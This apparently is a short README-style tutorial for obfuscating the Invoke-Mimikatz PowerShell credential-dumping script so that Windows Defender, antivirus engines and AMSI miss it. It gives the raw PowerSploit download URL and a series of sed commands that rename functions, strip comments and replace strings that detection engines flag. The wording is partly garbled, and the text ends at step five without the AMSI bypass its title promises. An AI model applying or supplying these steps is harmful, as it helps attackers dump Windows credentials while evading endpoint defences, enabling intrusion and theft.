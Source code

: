 # AMSI evasion and clear text password to spike the mimikatz hash

### What is this? 
Antivirus evasion activity using set command and ISE sploit module to bypass windows and anti-malware scan and AMSI as well

### How we can do it?  
- Step 1: download Invoke-Mimikatz.ps1 from PowershellMafia:
  https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1

- Step 2: then substitute all “invoke-Mimikatz” currencies with “invoke-Lsasscraper” inside the invoke-mimikatze.ps1 script:
  ```diff sed -i -e 's/Invoke-Mimikatz/Invoke-LSASSscraper/g' Invoke-Mimikatz.ps1 ```

- Step 3: remove all comments:
  sed -i -e '/<#/,/#>/c\\' Invoke-Mimikatz.ps1

- Step 4: remove all comment indented
  sed -i -e 's/^[[:space:]]*#.*$//g' Invoke-Mimikatz.ps1

- Step 5: replace parameters and strings they can picked up by antivirus engine:
  sed -i -e 's/DumpCreds/Dump/g' Invoke-Mimikatz.ps1
  sed -i -e 's/ArgumentPtr/0bf/g' Invoke-Mimikatz.ps1
  sed -i -e 's/CallDllMainSC1/0bfSC1/g' Invoke-Mimikatz.ps1
  sed -i -e "s/\-Win32Functions \$Win32Functions$/\-Win32Functions \$Win32Functions #\-/g" Invoke-Mimikatz.ps1
